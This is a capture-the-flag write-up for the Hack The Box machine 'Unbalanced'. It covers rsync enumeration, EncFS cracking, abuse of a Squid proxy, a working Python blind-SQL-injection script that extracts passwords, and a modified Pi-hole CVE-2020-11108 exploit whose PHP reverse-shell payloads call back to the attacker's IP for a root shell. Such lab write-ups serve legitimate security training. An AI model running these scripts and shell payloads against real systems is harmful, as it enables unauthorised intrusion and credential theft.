




# Unbalanced <br/>


## Enumeration

### Nmap

Started with the following nmap command:
<br />
```bash
nmap -sV -sC -p 1-10000 -oA nmap.res -v unbalanced.htb
```
<br />And here is the result
<br />
```bash
Nmap scan report for unbalanced.htb (10.10.10.200)
Host is up, received conn-refused (0.000054s latency).
Scanned at 2020-11-04 09:22:55 EST for 170628s
Not shown: 9574 closed ports, 423 filtered ports
Reason: 9574 conn-refused, 422 net-unreaches and 1 no-response
PORT     STATE SERVICE    REASON  VERSION
22/tcp   open  tcpwrapped syn-ack
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
873/tcp  open  tcpwrapped syn-ack
3128/tcp open  tcpwrapped syn-ack
```
<br />We basically have three ports open (22 - SSH, 873 - ???, 3128 - ???). We'll know about the unidentified ports later.

## Rsync

We first check the port 873. Since it wasn't specified what service it is by the nmap, we can check it ourselves what service it might be running. We can check it [here](https://www.speedguide.net/port.php?port=873). It turns out this port might be an **rsync** service. We can quickly check if we can list some directories or files through this command:
<br />
```bash
rsync --list-only rsync://10.10.10.200:873/
```
<br />After the execution, we are able to list a directory!
<br />
```bash
conf_backups   	EncFS-encrypted configuration backups
```
<br />Let's download the contents.

### Retrieving "conf_backups"

We can retrieve the **"conf_backups"** through this command:
<br />
```bash
mkdir conf_backups
cd conf_backups
rsync -a rsync://10.10.10.200:873/conf_backups ./
```
<br />After that, we can list the contents of the directory. However, it seems the files are gibberish.
<br />
```bash
rsync/conf_backups$ ls -la
total 632
drwxr-xr-x 2 altelus altelus   4096 Apr  4  2020 .
drwxr-xr-x 5 altelus altelus   4096 Nov  4 10:40 ..
-rw-r--r-- 1 altelus altelus    154 Apr  4  2020 0K72OfkNRRx3-f0Y6eQKwnjn
-rw-r--r-- 1 altelus altelus     56 Apr  4  2020 27FonaNT2gnNc3voXuKWgEFP4sE9mxg0OZ96NB0x4OcLo-
-rw-r--r-- 1 altelus altelus    190 Apr  4  2020 2VyeljxHWrDX37La6FhUGIJS
-rw-r--r-- 1 altelus altelus    537 Apr  4  2020 3cdBkrRF7R5bYe1ZJ0KYy786
-rw-r--r-- 1 altelus altelus    386 Apr  4  2020 3E2fC7coj5,XQ8LbNXVX9hNFhsqCjD-g3b-7Pb5VJHx3C1
-rw-r--r-- 1 altelus altelus    560 Apr  4  2020 3xB4vSQH-HKVcOMQIs02Qb9,
-rw-r--r-- 1 altelus altelus    275 Apr  4  2020 4J8k09nLNFsb7S-JXkxQffpbCKeKFNJLk6NRQmI11FazC1
-rw-r--r-- 1 altelus altelus    463 Apr  4  2020 5-6yZKVDjG4n-AMPD65LOpz6-kz,ae0p2VOWzCokOwxbt,
-rw-r--r-- 1 altelus altelus   2169 Apr  4  2020 5FTRnQDoLdRfOEPkrhM2L29P
-rw-r--r-- 1 altelus altelus    238 Apr  4  2020 5IUA28wOw0wwBs8rP5xjkFSs
-rw-r--r-- 1 altelus altelus   1277 Apr  4  2020 6R1rXixtFRQ5c9ScY8MBQ1Rg
-rw-r--r-- 1 altelus altelus    108 Apr  4  2020 7-dPsi7efZRoXkZ5oz1AxVd-Q,L05rofx0Mx8N2dQyUNA,
-rw-r--r-- 1 altelus altelus   1339 Apr  4  2020 7zivDbWdbySIQARaHlm3NbC-7dUYF-rpYHSQqLNuHTVVN1
-rw-r--r-- 1 altelus altelus   1050 Apr  4  2020 8CBL-MBKTDMgB6AT2nfWfq-e
-rw-r--r-- 1 altelus altelus     29 Apr  4  2020 8e6TAzw0xs2LVxgohuXHhWjM
-rw-r--r-- 1 altelus altelus    152 Apr  4  2020 8XDA,IOhFFlhh120yl54Q0da
-rw-r--r-- 1 altelus altelus   5721 Apr  4  2020 9F9Y,UITgMo5zsWaP1TwmOm8EvDCWwUZurrL0TwjR,Gxl0
-rw-r--r-- 1 altelus altelus   2980 Apr  4  2020 A4qOD1nvqe9JgKnslwk1sUzO
...
...
-rw-r--r-- 1 altelus altelus   1268 Apr  4  2020 dNTEvgsjgG6lKBr8ev8Dw,p7
-rw-r--r-- 1 altelus altelus   2359 Apr  4  2020 ECXONXBBRwhb5tYOIcjjFZzh
-rw-r--r-- 1 altelus altelus   1297 Apr  2  2020 .encfs6.xml
-rw-r--r-- 1 altelus altelus   1464 Apr  4  2020 F4F9opY2nhVVnRgiQ,OUs-Y0
-rw-r--r-- 1 altelus altelus    354 Apr  4  2020 FGZsMmjhKz7CJ2r-OjxkdOfKdEip4Gx2vCDI24GXSF5eB1
-rw-r--r-- 1 altelus altelus    135 Apr  4  2020 -FjZ6-6,Fa,tMvlDsuVAO7ek
-rw-r--r-- 1 altelus altelus   3275 Apr  4  2020 FSXWRSwW6vOvJ0ExPK0fXJ6F
-rw-r--r-- 1 altelus altelus    422 Apr  4  2020 gK5Z2BBMSh9iFyCFfIthbkQ6
...
...
```
<br />Of all these, there is only one file that is readable and it's **.encfs6.xml**. It turns out this is an **EncFs**.
> _EncFS is a userspace stackable cryptographic file-system similar to eCryptfs,_
>
> _- [Wiki Archlinux](https://wiki.archlinux.org/)_

<br />We need somehow to decrypt and mount this filesystem to be used.

### Cracking the encrypted "conf_backups"

We can crack the encrypted filesystem by using **encfs2john** to format a file that will be compatible to **john the ripper**.

#### Using "encfs2john" to generate hash

Using the **encfs2john**, we need to point the name of the directory of the encrypted filesystem (conf_backups in this case). Then, we have to output in a file:
<br />
```bash
/usr/share/john/encfs2john.py conf_backups/ > encfs.crackable
```
<br />And then, we proceed with cracking it using john the ripper
<br />
```bash
sudo john --wordlist /usr/share/wordlists/rockyou.txt encfs.crackable --format=encfs
```
<br />After waiting, **JTR** has actually found the password:
<br />
```bash
Warning: invalid UTF-8 seen reading /usr/share/wordlists/rockyou.txt

Using default input encoding: UTF-8
Loaded 1 password hash (EncFS [PBKDF2-SHA1 128/128 AVX 4x AES])
Cost 1 (iteration count) is 580280 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status

bubblegum        (conf_backups/)
1g 0:00:02:07 DONE (2020-12-05 09:27) 0.007865g/s 18.37p/s 18.37c/s 18.37C/s loveya..puppies
```
<br />Password is _**bubblegum**_. We now have to mount it

### Mounting the decrypted "conf_backups"

We can edit **/etc/fstab** then use **mount** command to mount the EncFS.
<br />
```bash
# /etc/fstab: static file system information.
...
...
...
# the settings below is appended
encfs#/home/altelus/HTB/boxes/Unbalanced/enums/rsync/conf_backups	/mnt/decr_conf_backups	fuse	noauto,user	0	0
```
<br />_More info [here](https://wiki.archlinux.org/index.php/EncFS#Mount_via_fstab)_
<br />Then we proceed to mounting
<br />
```bash
$ sudo mount /mnt/decr_conf_backups/
EncFS Password:
```
<br />Enter the password upon mount. Let's check if it worked by visiting **/mnt/decr_conf_backups**
<br />
```bash
cd /mnt/decr_conf_backups/
ls -lart
total 628
-rw-r--r-- 1 altelus altelus    246 Apr  4  2020 dconf
-rw-r--r-- 1 altelus altelus    100 Apr  4  2020 x86_64-linux-gnu.conf
-rw-r--r-- 1 altelus altelus     44 Apr  4  2020 libc.conf
-rw-r--r-- 1 altelus altelus     38 Apr  4  2020 fakeroot-x86_64-linux-gnu.conf
-rw-r--r-- 1 altelus altelus    435 Apr  4  2020 logrotate.conf
-rw-r--r-- 1 altelus altelus    332 Apr  4  2020 ldap.conf
-rw-r--r-- 1 altelus altelus    144 Apr  4  2020 kernel-img.conf
-rw-r--r-- 1 altelus altelus   4491 Apr  4  2020 main.conf
-rw-r--r-- 1 altelus altelus    120 Apr  4  2020 network.conf
-rw-r--r-- 1 altelus altelus    927 Apr  4  2020 input.conf
-rw-r--r-- 1 altelus altelus    604 Apr  4  2020 deluser.conf
-rw-r--r-- 1 altelus altelus    414 Apr  4  2020 user-dirs.conf
-rw-r--r-- 1 altelus altelus    280 Apr  4  2020 fuse.conf
-rw-r--r-- 1 altelus altelus     87 Apr  4  2020 resolv.conf
-rw-r--r-- 1 altelus altelus    195 Apr  4  2020 modules.conf
-rw-r--r-- 1 altelus altelus     34 Apr  4  2020 ld.so.conf
-rw-r--r-- 1 altelus altelus   2584 Apr  4  2020 gai.conf
...
-rw-r--r-- 1 altelus altelus   1260 Apr  4  2020 ucf.conf
-rw-r--r-- 1 altelus altelus   1628 Apr  4  2020 system.conf
-rw-r--r-- 1 altelus altelus   2041 Apr  4  2020 semanage.conf
-rw-r--r-- 1 altelus altelus    510 Apr  4  2020 nsswitch.conf
-rw-r--r-- 1 altelus altelus    281 Apr  4  2020 udev.conf
-rw-r--r-- 1 altelus altelus 316553 Apr  4  2020 squid.conf
-rw-r--r-- 1 altelus altelus    230 Apr  4  2020 debian.conf
-rw-r--r-- 1 altelus altelus   5713 Apr  4  2020 ca-certificates.conf
-rw-r--r-- 1 altelus altelus   2179 Apr  4  2020 time.conf
-rw-r--r-- 1 altelus altelus    419 Apr  4  2020 sepermit.conf
-rw-r--r-- 1 altelus altelus   2972 Apr  4  2020 pam_env.conf
...
...
```
<br />The files are finally decrypted! We just have to copy the files so that we don't have to mount it again.

## Squid HTTP Proxy

Another port that we are not familiar with is the **port 3128**. It turns out it is a **Squid Proxy**. We can check it [here](https://www.speedguide.net/port.php?port=3128). We actually have seen a **squid.conf** file in our decrypted files earlier. Let's check it.

### Squid configuration file

Upon opening the squid.conf, there are quite a number of interesting things

#### Cachemgr_passwd section
```bash
...
#Default:
# No password. Actions which require password are denied.
cachemgr_passwd Thah$Sh1 menu pconn mem diskd fqdncache filedescriptors objects vm_objects counters 5min 60min histograms cbdata sbuf events
cachemgr_passwd disable all
...
```
<br />According to **[squid-cach.org](http://www.squid-cache.org/Doc/config/cachemgr_passwd/)**, we actually have another password.
<br />

<br />We should be able access the squid's cache management system with this password.

#### Allowed to access internal servers

It is defined at **line 1410** which domains or ips are allowed to be accessed through http:
<br />
```bash
$ tail -n+1410 squid.conf | head -n 10

# Allow access to intranet
acl intranet dstdomain -n intranet.unbalanced.htb
acl intranet_net dst -n 172.16.0.0/12
http_access allow intranet
http_access allow intranet_net
...
```
<br />As we can see, through the domain name, we can only access **intranet.unbalanced.htb**. Let's access it.
##### Setting our proxy (FoxyProxy is used here)
But before accessing, let's set our http proxy to the squid. Here is my FoxyProxy settings
<br />
<br />After setting the proxy up, let's access the intranet:
<br />
<br />It's a login page! We will come back to it later. Remember that we are not only given with accessible domain but also with accessible range of IP. We also need to check them first

### Squid Management Enumeration
Let's now check the actions we can do with the squid cache manager with the password we have (password: _**Thah$Sh1**_). Let's use the _**squidclient**_ cli to tinker with the squid cache manager.
<br />Let's check first the menu.
<br />
```bash
squidclient -h 10.10.10.200 -w 'Thah$Sh1' mgr:menu
HTTP/1.1 200 OK
Server: squid/4.6
Mime-Version: 1.0
Date: Sat, 05 Dec 2020 15:38:38 GMT
Content-Type: text/plain;charset=utf-8
Expires: Sat, 05 Dec 2020 15:38:38 GMT
Last-Modified: Sat, 05 Dec 2020 15:38:38 GMT
X-Cache: MISS from unbalanced
X-Cache-Lookup: MISS from unbalanced:3128
Via: 1.1 unbalanced (squid/4.6)
Connection: close

 index                 	Cache Manager Interface         	disabled
 menu                  	Cache Manager Menu              	protected
 offline_toggle        	Toggle offline_mode setting     	disabled
 shutdown              	Shut Down the Squid Process     	disabled
 reconfigure           	Reconfigure Squid               	disabled
 rotate                	Rotate Squid Logs               	disabled
 pconn                 	Persistent Connection Utilization Histograms	protected
 mem                   	Memory Utilization              	protected
 ...
 ...
 cbdata                	Callback Data Registry Contents 	protected
 sbuf                  	String-Buffer statistics        	protected
 events                	Event Queue                     	protected
 netdb                 	Network Measurement Database    	disabled
 asndb                 	AS Number Database              	disabled
 ...
```
<br />As we can see, our access is pretty limited. What we can access here (with "protected") is also defined in the squid.conf that we retrieved earlier. Let's start checking them

#### Squid "fqdncache" to check any internal server

After a lot of checking, the action that should give us the most valuable info is the "fqdncache".
<br />
```bash
$ squidclient -h 10.10.10.200 -w 'Thah$Sh1' mgr:fqdncache
HTTP/1.1 200 OK
Server: squid/4.6
Mime-Version: 1.0
...
...

Address                                       Flg TTL Cnt Hostnames
127.0.1.1                                       H -001   2 unbalanced.htb unbalanced
::1                                             H -001   3 localhost ip6-localhost ip6-loopback
172.31.179.2                                    H -001   1 intranet-host2.unbalanced.htb
172.31.179.3                                    H -001   1 intranet-host3.unbalanced.htb
127.0.0.1                                       H -001   1 localhost
172.17.0.1                                      H -001   1 intranet.unbalanced.htb
ff02::1                                         H -001   1 ip6-allnodes
ff02::2                                         H -001   1 ip6-allrouters
```
<br />We can see here that there are more domain to IP mapping are present for internal servers! We should also notice that there is the _**intranet.unbalanced.htb**_ that we are allowed to access as it is, a domain name, earlier at squid.conf. Also notice the _**intranet-host[2-3].unbalanced.htb**_ domain names  _**are not defined in squid.conf**_! But they are technically allowed through the allowed IP address range.  

## Intranet Login
Let's go back to the intranet login. Let's just put "admin" as username and "password" as credentials just to check its behavior.<br />

<br />After submitting, nothing seems to happen. It's as if the intranet login portal did not respond to our login. No prompt if we got the credentials correct or not. Let's check the http response headers.<br />

<br />Notice that the responding server is the _**intranet-host2.unbalanced.htb**_ and not _**intranet.unbalanced.htb**_. It might mean that the infrastructure may be using **Load Balancer** to pass the requests from the _**intranet.unbalanced.htb**_ to the other servers which are _**intranet-host2.unbalanced.htb**_ and _**intranet-host3.unbalanced.htb**_. However, if there is host2 and host3, there must be a _**host1**_. Let's try accessing that.

## Accessing "intranet-host1.unbalanced.htb"
The domain name itself is not defined but remember that we can access the servers themselves through the IP address since we are allowed by Squid http proxy. If _**172.31.179.2 = intranet-host2.unbalanced.htb**_ and _**172.31.179.3 = intranet-host3.unbalanced.htb**_, then there is a high possibility that _**172.31.179.1 = intranet-host1.unbalanced.htb**_. Let's access the **172.31.179.1**<br />

<br />Host1 actually exists! However, there is no intranet login. One step back, we can see that the url changes when we try to access **intranet.unbalanced.htb**. We are being redirected to **/intranet.php**<br />

<br />Now let's just try accessing the **intranet.php** in 172.31.179.1. (http://172.31.179.1/intranet.php)
<br />After accessing, indeed the **intranet.php** page exists but there seems to be no difference than the other servers. Let's now try logging in and check if we can now receive a different response this time. (still "admin" as username and "password" as password)<br />

<br />There is now a login response! Let's now tinker this login form if it has a vulnerability or if we can use our credentials earlier (although we don't have a legitimate username)

## Blind SQLi against server 172.31.179.1 Form
We first need to fuzz for SQL Injection vulnerability that might be existing in the form. We will be using burp in this.
<br />Let's first set our Upstream Proxy Servers to Squid Proxy(10.10.10.200 - 3128)<br />

<br />Then let's intercept the login and then send to **Repeater**<br />

<br />After we send it to **Repeater**, paste the whole requests to **Intruder -> Positions**<br />

<br />Then we will get our SQLi fuzz list from [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/Intruder/FUZZDB_MYSQL.txt). Then past it to **Intruder -> Payloads**<br />

<br />Then we can "Start Attack". After it is finished, we will be checking the _length_ of response.<br />

<br />Out of these, there are only 3 lengths: 7079, 7185, and 7852. We are of most concern with with the largest since if we managed to leak data, it goes to say that the length of data expected to be received is also larger or longer. So let's check the response of the intranet login portal by redoing the payload at _**Password**_ (remember the position at the left - it is a value of 2) in the login page with payload _**1'or'1'='1**_.<br />


### Leaking passwords for every user
From the payload we have used, we know that the resulting query is true since it is leaking all the usernames and false when the data length is low. We can leak the password by having a conditional: _**\<nth character of Password = x\> AND Username=\<username\>**_. This will convert to the following blind sqli payload: _**' or substring(Password, {}, 1) = {} and Username='{}' and 'a**_. I created a python script to automate it.
<br />
```python
import string
import sys
import requests


proxies = {
    "http" : "http://10.10.10.200:3128"
}

def blind_attack(user, printable, pass_index):

    global proxies

    if printable == "'":
        char = '"\'"'
    else:
        char = "'{}'".format(printable)


    exploit_str = "' or substring(Password, {}, 1) = {} and Username='{}' and 'a".format(pass_index, char, user)


    data = {
        "Username" : user,
        "Password" : exploit_str
    }

    resp = requests.post("http://172.31.179.1/intranet.php", data=data, proxies=proxies)

    if "Invalid" in resp.text:
        return False

    return printable

def print_status(user, accumulated, current, total, curr_char):
    print("[{} - {}] {} --> {}/{}".format(user, curr_char, accumulated, current, total), end="\r")

user_file = sys.argv[1]


with open(user_file, "r") as rf:
    users = rf.read().strip().split("\n")

accumulated_pass = {}

for user in users:

    accumulated_pass[user] = ""
    pass_index = 1

    count = 0

    while count < len(string.printable[:-5]):

        print_status(user,accumulated_pass[user], count+1, len(string.printable[:-5]), string.printable[count])

        printable = string.printable[count]
        ret_char = blind_attack(user, printable, pass_index)

        if ret_char != False:
            accumulated_pass[user] += ret_char
            pass_index += 1
            count = 0
            continue

        count += 1

    print("")


print(accumulated_pass)
```
<br />We managed to leak usernames! Nice! However, we can take this further by leaking the passwords. We can get the usernames as a list. We can run the code as follows:
<br />
```bash
$ python3 blind.py usernames.txt
[rita -  ] password01! --> 95/95
[jim -  ] stairwaytoheaven --> 95/95
[bryan -  ] ireallyl0vebubblegum!!! --> 95/95
[sarah -  ] sarah4evah --> 95/95
```
<br />We now have our passwords! Let's use them with the ssh!
## User Bryan
The one that worked was actually bryan's (bryan:ireallyl0vebubblegum!!!)
<br />
```
$ ssh bryan@unbalanced.htb
bryan@unbalanced.htb's password:
Linux unbalanced 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Dec  5 07:36:55 2020 from 10.10.14.33
bryan@unbalanced:~$
```
<br />
At this point, we can get the user flag.
<br />
```bash
bryan@unbalanced:~$ ls -la
total 32
drwxr-xr-x 3 bryan bryan 4096 Jun 17 11:35 .
drwxr-xr-x 3 root  root  4096 Jun 17 11:35 ..
lrwxrwxrwx 1 root  root     9 Apr  3  2020 .bash_history -> /dev/null
-rw-r--r-- 1 bryan bryan  220 Apr  2  2020 .bash_logout
-rw-r--r-- 1 bryan bryan 3526 Apr  2  2020 .bashrc
drwx------ 3 bryan bryan 4096 Apr  2  2020 .gnupg
-rw-r--r-- 1 bryan bryan  807 Apr  2  2020 .profile
-rw-r--r-- 1 bryan bryan  798 Jun 17 11:35 TODO
-rw-r--r-- 1 root  root    33 Dec  5 06:48 user.txt
bryan@unbalanced:~$
```

## Bryan's Home "TODO"
Once at the home directory, there is an interesting file named "TODO"
<br />
```bash
bryan@unbalanced:~$ cat TODO
############
# Intranet #
############
* Install new intranet-host3 docker [DONE]
* Rewrite the intranet-host3 code to fix Xpath vulnerability [DONE]
* Test intranet-host3 [DONE]
* Add intranet-host3 to load balancer [DONE]
* Take down intranet-host1 and intranet-host2 from load balancer (set as quiescent, weight zero) [DONE]
* Fix intranet-host2 [DONE]
* Re-add intranet-host2 to load balancer (set default weight) [DONE]
- Fix intranet-host1 [TODO]
- Re-add intranet-host1 to load balancer (set default weight) [TODO]

###########
# Pi-hole #
###########
* Install Pi-hole docker (only listening on 127.0.0.1) [DONE]
* Set temporary admin password [DONE]
* Create Pi-hole configuration script [IN PROGRESS]
- Run Pi-hole configuration script [TODO]
- Expose Pi-hole ports to the network [TODO]
bryan@unbalanced:~$
```
<br />Bryan is setting up Pi-hole. We can check if the Pi-hole is still up or accepting connections

### Check if PiHole is open and operating

#### Open ports looking for Pi-Hole
Since netstat is not available, we can use _**ss -lnt**_ command. **-l** is for listening, **-n** is for numbers only, and **-t** is for tcp;
<br />
```bash
bryan@unbalanced:~$ ss -lnt
State                 Recv-Q                 Send-Q                                 Local Address:Port                                 Peer Address:Port                
LISTEN                0                      5                                            0.0.0.0:873                                       0.0.0.0:*                   
LISTEN                0                      128                                        127.0.0.1:8080                                      0.0.0.0:*                   
LISTEN                0                      128                                        127.0.0.1:5553                                      0.0.0.0:*                   
LISTEN                0                      32                                           0.0.0.0:53                                        0.0.0.0:*                   
LISTEN                0                      128                                          0.0.0.0:22                                        0.0.0.0:*                   
LISTEN                0                      128                                                *:3128                                            *:*                   
LISTEN                0                      5                                               [::]:873                                          [::]:*                   
LISTEN                0                      32                                              [::]:53                                           [::]:*                   
LISTEN                0                      128                                             [::]:22                                           [::]:*                   
bryan@unbalanced:~$
```
<br />There seems to be an port 8080, might be a webpage or the Pi-hole web UI. Let's do a quick curl.
<br />
```bash
bryan@unbalanced:~$ curl http://localhost:8080 ; echo
[ERROR]: Unable to parse results from <i>queryads.php</i>: <code>Unhandled error message (<code>Invalid domain!</code>)</code>
bryan@unbalanced:~$
```
<br />It is responding to http. Let's use the SSH tunneling.

### Using SSH tunneling for http port 8080
```bash
$ ssh bryan@unbalanced.htb -L 8080:127.0.0.1:8080 -N
bryan@unbalanced.htb\'s password:

```
<br />Let's now access it through the browser.<br />

<br />It turns out we need to append "/admin" to get to pi-hole admin interface. [SOURCE](https://discourse.pi-hole.net/t/how-do-i-access-pi-holes-dashboard-admin-interface/3168)<br />


### Pi-hole Login
After appending the "/admin" we should now be able to get to login page admin by clicking on the login from the left side.<br />

<br />Let's try "admin" for password.<br/>

<br />LOL it worked!

### Pi-hole exploit - CVE-2020-11108
After logging in and a little bit of searching, it turns out there is a [Pi-hole exploit available for versions below 4.4](https://www.exploit-db.com/exploits/48443). Checking the current version:<br />

<br />This version is vulnerable!

#### Getting the PHPSESSID
We have to get first the PHPSESSID from the cookies assigned to use by the server. It will be needed by the POC<br />


#### Changed payload from python3 to bash
After downloading the exploit and execute it, no response from the server. So I had changed the payload from python3 to bash
<br />
```python
...
# Payload taken from http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
# I opted to use the Python3 reverse shell one liner over the full PHP reverse shell.
#shell_payload = """<?php
#  shell_exec("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\\"%s\\\",%s));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\\"/bin/sh\\",\\"-i\\"]);'")
#?>
#""" %(LOCAL_IP, LOCAL_PORT)

shell_payload = """<?php
  $sock=fsockopen("{}",{});
  exec("bash -i <&3 >&3 2>&3");
?>
""".format(LOCAL_IP, LOCAL_PORT)
...
```
<br />Save it and then reexecute the code. Just make sure that there is a listener on our side. I used netcat for it. The execution of exploit with new payload:
<br />
```bash
sudo python3 48443_orig.py 7bfnctcni8uou4c0sb9davv863 'http://localhost:8080' 10.10.14.33 40000
[+] Put Root Stager Success
[+] Received First Callback
[+] Received Second Callback
[+] Uploading Root Payload
[+] Put Shell Stager Success
[+] Received Third Callback
[+] Received Fourth Callback
[+] Uploading Shell Payload
[+] Triggering Exploit
```
<br />And this is what will be expected on the listener side
<br />
```bash
$ nc -lvp 40000
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::40000
Ncat: Listening on 0.0.0.0:40000
Ncat: Connection from 10.10.10.200.
Ncat: Connection from 10.10.10.200:39560.
bash: cannot set terminal process group (527): Inappropriate ioctl for device
bash: no job control in this shell
root@pihole:/var/www/html/admin/scripts/pi-hole/php# whoami
whoami
root
```

### Pi-hole Docker as root
Even though we are root, this is not the actual host. So we need to enumerate for leverage.

#### Getting password from pi-hole config in home
At the home directory of root there is a config file containing a password.
<br />
```bash
root@pihole:/var/www/html/admin/scripts/pi-hole/php# cd
cd
root@pihole:~# ls -la
ls -la
total 132
drwxrwxr-x 1 root root   4096 Apr  5  2020 .
drwxr-xr-x 1 root root   4096 Jul 30 05:13 ..
lrwxrwxrwx 1 root root      9 Apr  4  2020 .bash_history -> /dev/null
-rw-r--r-- 1 root root    570 Jan 31  2010 .bashrc
-rw-r--r-- 1 root root    148 Aug 17  2015 .profile
-rw-r--r-- 1 root root 113876 Sep 20  2019 ph_install.sh
-rw-r--r-- 1 root root    485 Apr  6  2020 pihole_config.sh
root@pihole:~# cat pihole_config.sh
cat pihole_config.sh
#!/bin/bash

# Add domains to whitelist
/usr/local/bin/pihole -w unbalanced.htb
/usr/local/bin/pihole -w rebalanced.htb

# Set temperature unit to Celsius
/usr/local/bin/pihole -a -c

# Add local host record
/usr/local/bin/pihole -a hostrecord pihole.unbalanced.htb 127.0.0.1

# Set privacy level
/usr/local/bin/pihole -a -l 4

# Set web admin interface password
/usr/local/bin/pihole -a -p 'bUbBl3gUm$43v3Ry0n3!'

# Set admin email
/usr/local/bin/pihole -a email admin@unbalanced.htb
root@pihole:~#
```
<br />The password is _**bUbBl3gUm$43v3Ry0n3!**_. Let's try using it to login as root against the host machine.

## SU Login to root from bryan
Let's try logging in as bryan first then switch user to root.
<br />
```
$ ssh bryan@unbalanced.htb
bryan@unbalanced.htb's password:
Linux unbalanced 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Dec  5 13:23:22 2020 from 10.10.14.33
bryan@unbalanced:~$ su root
Password:
root@unbalanced:/home/bryan# cd
root@unbalanced:~# ls -la
total 36
drwx------  6 root root 4096 Apr  6  2020 .
drwxr-xr-x 18 root root 4096 Jun 17 14:08 ..
lrwxrwxrwx  1 root root    9 Apr  3  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwx------  3 root root 4096 Apr  3  2020 .config
drwx------  3 root root 4096 Apr  2  2020 .gnupg
drwxr-xr-x  3 root root 4096 Apr  3  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-------  1 root root   33 Dec  5 06:48 root.txt
drwx------  2 root root 4096 Apr  6  2020 .ssh
root@unbalanced:~#
```
<br />We now have pwned the machine! Thank you for reading :D

# Sources:
* https://discourse.pi-hole.net/t/how-do-i-access-pi-holes-dashboard-admin-interface/3168
* https://www.exploit-db.com/exploits/48443
* https://www.exploit-db.com/exploits/48442
* http://squid-web-proxy-cache.1019090.n4.nabble.com/How-to-run-squidclient-td4670539.html
* https://medium.com/@minimalist.ascent/enumerating-rsync-servers-with-examples-cc3718e8e2c0
* https://www.speedguide.net/port.php?port=873
* https://www.digitalocean.com/community/tutorials/how-to-use-rsync-to-sync-local-and-remote-directories
* https://security.stackexchange.com/questions/98205/breaking-encfs-given-encfs6-xml
* https://wiki.archlinux.org/index.php/EncFS#User_friendly_mounting
